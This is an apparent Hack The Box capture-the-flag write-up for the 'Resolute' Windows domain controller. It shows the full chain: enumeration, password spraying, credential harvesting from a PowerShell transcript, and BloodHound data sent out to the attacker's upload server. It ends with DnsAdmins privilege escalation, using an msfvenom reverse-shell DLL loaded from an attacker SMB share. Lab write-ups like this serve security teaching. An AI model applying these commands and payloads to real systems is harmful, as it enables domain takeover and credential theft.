

# HTB Resolute

## user.txt

Enumerate:

```bash
 sudo nmap -sC -sV $ip -Pn --top-ports 10000
```

Results: 

```bash
Nmap scan report for $ip
Host is up (0.041s latency).
Not shown: 8354 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-01-13 15:32:44Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-13T15:32:52
|_  start_date: 2025-01-13T15:30:38
|_clock-skew: mean: 2h47m38s, deviation: 4h37m10s, median: 7m36s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2025-01-13T07:32:54-08:00

```


```bash
crackmapexec smb $ip --users
```

Results:

```bash
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] Error enumerating domain users using dc ip 10.129.96.155: NTLM needs domain\username and a password
SMB         10.129.96.155   445    RESOLUTE         [*] Trying with SAMRPC protocol
SMB         10.129.96.155   445    RESOLUTE         [+] Enumerated domain user(s)
SMB         10.129.96.155   445    RESOLUTE         megabank.local\Administrator                  Built-in account for administering the computer/domain
SMB         10.129.96.155   445    RESOLUTE         megabank.local\Guest                          Built-in account for guest access to the computer/domain
SMB         10.129.96.155   445    RESOLUTE         megabank.local\krbtgt                         Key Distribution Center Service Account
SMB         10.129.96.155   445    RESOLUTE         megabank.local\DefaultAccount                 A user account managed by the system.
SMB         10.129.96.155   445    RESOLUTE         megabank.local\ryan                           
SMB         10.129.96.155   445    RESOLUTE         megabank.local\marko                          Account created. Password set to Welcome123!
SMB         10.129.96.155   445    RESOLUTE         megabank.local\sunita                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\abigail                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\marcus                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\sally                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\fred                           
SMB         10.129.96.155   445    RESOLUTE         megabank.local\angela                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\felicia                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\gustavo                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\ulf                            
SMB         10.129.96.155   445    RESOLUTE         megabank.local\stevie                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\claire                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\paulo                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\steve                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\annette                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\annika                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\per                            
SMB         10.129.96.155   445    RESOLUTE         megabank.local\claude                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\melanie                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\zach                           
SMB         10.129.96.155   445    RESOLUTE         megabank.local\simon                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\naoki  
```

An interesting outcome: 
user: marko
Password: Welcome123!

Now we perform a spray password attack with kerbrute 

```bash
./kerbrute_linux_amd64 passwordspray -d megabank.local --dc $ip ~/borrar/users.txt  Welcome123!
```

Results:

```bash
[+] VALID LOGIN WITH ERROR:	 melanie@megabank.local:Welcome123!	 (Clock skew is too great)
```

We connect via evil-WinRM

```bash
evil-winrm -i $ip -u melanie -p 'Welcome123!'
```

And get the flag:

```bash
type C:\Users\melanie\Desktop\user.txt
```

Results:

```bash
39f05b4fb62a08d8f6cde4ad11d2f40d
```

## Root.txt

```bash
evil-winrm -i $ip -u melanie -p 'Welcome123!'
```

After enumerating and enumerating, everything ended up being an old log of a powershell sequence saved at 

```powershell
C:\PSTranscripts\20191203> type "PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt"
```

User: ryan
Serv3r4Admin4cc123!

However, it's necessary using `dir -force` to be able to spot the directory to start with.


```bash
evil-winrm -i $ip -u ryan -p 'Serv3r4Admin4cc123!'
```

Serve SharpHound.exe and PSUpload.ps1 from our kali machine:

```bash
python -m http.server 8000
```

Retrieve it from the Win-RM connection:

```bash
# Certutil is not working
Invoke-WebRequest http://10.10.14.149:8000/SharpHound.exe -OutFile SharpHound.exe
Invoke-WebRequest http://10.10.14.149:8000/PSUpload.ps1 -OutFile PSUpload.ps1
```

Run the SharpHound collector:

```bash
.\SharpHound.exe -c All --zipfilename enum
```

Get the uploadserver running in our kali:

```bash
python3 -m uploadserver
```

Upload the collector file:

```bash
Import-Module .\PSupload.ps1
Invoke-FileUpload -Uri http://$ipServer:8000/upload -File C:\Users\ryan\Documents\fileenum.zip
```

Run bloodhound in our kali and upload the zip file:

```bash
# In one terminal
sudo neo4j console

# In a second terminal 
bloodhound

# Upload the file
```

Now we can see that RYAN is a nested member of the DNSADMINS:



The DnsAdmins group in Active Directory is a built-in security group with special privileges related to managing the DNS Server Service in a Windows environment. This group is typically present on domain controllers where the DNS Server role is installed.

The group is intended to manage the DNS server configuration for the Active Directory domain. Members of this group can perform administrative tasks related to DNS, such as creating, modifying, or deleting DNS records.

By default, the DnsAdmins group is empty. Administrators must explicitly add users or other groups as members.

Members of the DnsAdmins group can potentially execute arbitrary commands on the DNS server, as they can load custom DLLs into the DNS service. This ability can be exploited to escalate privileges to domain administrator if the DNS server runs on a domain controller.

### Exploit: Loading a Malicious DLL

**Step 1: Create a Malicious DLL**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.149 LPORT=443 -f dll -o rev.dll
```

**Step 2: Transfer the DLL to the Target**

```bash
Invoke-WebRequest -Uri http://10.10.14.149:8000/dllinjection.dll -OutFile rev.dll
```

But it does not work as Defender is in use. We will share the file from a smbserver in our kali:

```bash
python3 impacket/examples/smbserver.py share ./
```

Now it can be executed from that share location:

**Step 3: Configure the DNS Server to Load the Malicious DLL**

```bash
dnscmd.exe /config /serverlevelplugindll \\10.10.14.149\share\rev.dll
```

**Step 4: Launch a listener in your kali**

```bash
nc -lnvp 443
```

**Step 5: Restart the DNS Service**

```powershell
sc.exe stop dns
sc.exe start dns
```

When the DNS service restarts, it will load the malicious DLL, and the payload in the `DllMain` function will execute. We will see something similar to this in the smbserver:

```
*] Incoming connection (10.129.96.155,53560)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:aaaaaaaaaaaaaaaa:a1d137f48aa596c91345a5655a6e99b0:0101000000000000006b0a4cec65db01c58cea7f0585672e0000000001001000560052007a007000520046005a00580003001000560052007a007000520046005a0058000200100
[SNIP]
```


**Step 6: Obtain the flag**

In the listener at port 443 we will obtain a reverse shell. Print the flag.

```bash
type C:\Users\Administrator\Desktop\root.txt
```

Results:  2f18fdc60da2de8a5459d04046f12485
